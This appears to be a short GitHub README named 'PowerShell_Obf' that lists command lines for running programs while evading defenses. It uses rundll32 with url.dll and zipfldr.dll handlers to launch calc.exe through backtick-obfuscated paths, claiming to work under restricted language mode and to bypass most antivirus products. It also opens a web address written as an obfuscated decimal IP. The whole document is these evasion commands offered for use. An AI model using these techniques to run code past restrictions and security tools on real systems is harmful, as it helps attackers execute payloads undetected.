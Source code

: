 # PowerShell_Obf

#Calling files in restricted language mode and bypass most AVs

`` rundll32 url.dll,FileProtocolHandler file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E ``

rundll32.exe zipfldr.dll,RouteTheCall file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

rundll32 url.dll,OpenURL file://`C`:`/`W`I`N`D`O`W`S`/`S`Y`S`T`E`M`3`2`/`C`A`L`C`.`E`X`E

#Call a web page via its decimal value
rundll32 url.dll,OpenURL HTTP://`2`9`1`5`2`2`4`9`3`3
